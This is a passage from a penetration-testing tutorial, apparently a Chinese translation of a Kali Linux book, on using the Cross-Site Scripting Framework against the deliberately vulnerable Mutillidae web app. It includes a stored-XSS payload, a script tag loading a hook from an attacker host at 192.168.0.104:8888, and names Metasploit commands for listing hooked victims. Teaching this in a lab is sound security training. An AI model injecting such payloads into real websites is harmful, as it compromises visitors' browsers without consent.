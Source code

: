     我们将使用易受攻击的 web 应用**Mutillidae**来演示 XSSF。Mutillidae 是 Metasploitable 项目的一部分，可从[下载 http://sourceforge.net/projects/metasploitable/files/Metasploitable2/](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/) 。有关安装此易受攻击目标的注意事项，请参阅[附录](12.html "Appendix A. Installing Kali Linux")*安装 Kali Linux*。

6.  Once Mutillidae is opened, navigate to the blog page; this page is known to be vulnerable to XSS (you can use a vulnerability scanning tool against Mutillidae to identify other potential insertion points).

    若要对目标客户端发起攻击，请不要在博客中输入常规帖子。而是输入包含目标 URL 和端口的脚本元素：

    ```
    <script src="http://192.168.0.104:8888/loop?interval=5"></script>
    ```

    以下屏幕截图显示了攻击代码在目标网站博客页面上的位置。

    ![The Cross-Site Scripting Framework](img/3121OS_11_09.jpg)

    输入此信息后，受害者点击**保存博客条目**，其系统将被破坏。从 Metasploit 框架控制台，测试人员可以使用`xssf_victims`和`xssf_information`命令获取每个受害者的信息。在执行`xssf_victims`命令时，将显示每个受害者的信息，如以下屏幕截图所示：

    ![The Cross-Site Scripting Framework](img/3121OS_11_10.jpg)
